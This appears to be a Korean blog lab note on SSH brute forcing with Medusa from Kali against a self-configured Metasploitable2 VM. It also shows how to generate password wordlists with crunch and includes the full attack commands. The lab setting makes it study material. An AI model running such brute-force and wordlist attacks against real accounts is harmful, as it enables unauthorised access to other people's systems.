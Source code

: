 ```yaml
---
title:  "Medusa"
excerpt: ""

categories:
  # - security
tags:
  - [csrf, security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```

## Kali linux에서 Medusa를 활용해서 Brute Force 공격 해보기
#### Metasploitable2 설정
```
$ metasploitable2@msfadmin : sudo adduser iu
# 비밀번호는 goodluck
```

#### Kali 설정
* * *
medusa 설치 확인

```bash
$ kali@kali : sudo medusa --help
```

![picture 1](../assets/images/20220517-011724.png){: .center} 

#### Dictionary 수정
```bash
$ kali@kali : cd /usr/share/john
$ kali@kali : vi password.lst
```
* * *
#### Medusa 사용

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u iu password.lst -M ssh
```

![picture 2](../assets/images/20220517-012128.png){: .center}

---

* * *
#### 딕셔너리 만들기 실습
* * *
```bash
$ kali@kali : cd /usr/share/crunch
# 메뉴얼 확인
$ kali@kali : sudo man crunch
```

##### 숫자 4자리로 구성된 딕셔너리를 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -o pw1.txt
$ kali@kali : less pw1.txt
```
![picture 3](../assets/images/20220517-013532.png){: .center} 

\* 주의사항) 너무 큰 파일을 생성하면 에러 발생 우려 ex) 500MB 이상

##### 소문자 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : less charset.lst
$ kali@kali : sudo crunch 4 4 -f charset.lst lalpha -o pw2.txt
$ kali@kali : less pw2.txt
```
![picture 4](../assets/images/20220517-014036.png){: .center}

![picture 7](../assets/images/20220517-014206.png){: .center}  

![picture 5](../assets/images/20220517-014142.png){: .center}

##### 특정 문자가 들어가는 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -t 'sk@@' -o pw3.txt
$ kali@kali : less pw3.txt
```

![picture 8](../assets/images/20220517-015612.png){: .center}

![picture 9](../assets/images/20220517-015648.png){: .center}

##### skinfosec 뒤에 숫자 세자리, 특수문자 1자리로 된 딕셔너리
* * *
\* ' ' 를 사용하고 @를 넣으면 와일드 문자로 사용되지만,

\* ' ' 를 사용하지 않는 경우 아래와 같이 문자가 지정 됨.
- @ : lower case character
- , : upper case character
- % : numbers
- ^ : symbols

```bash
$ kali@kali : sudo crunch 13 13 -t skinfosec%%%^ -o pw4.txt
$ kali@kali : less pw4.txt
```

![picture 10](../assets/images/20220517-020107.png){: .center}

![picture 11](../assets/images/20220517-020130.png){: .center}

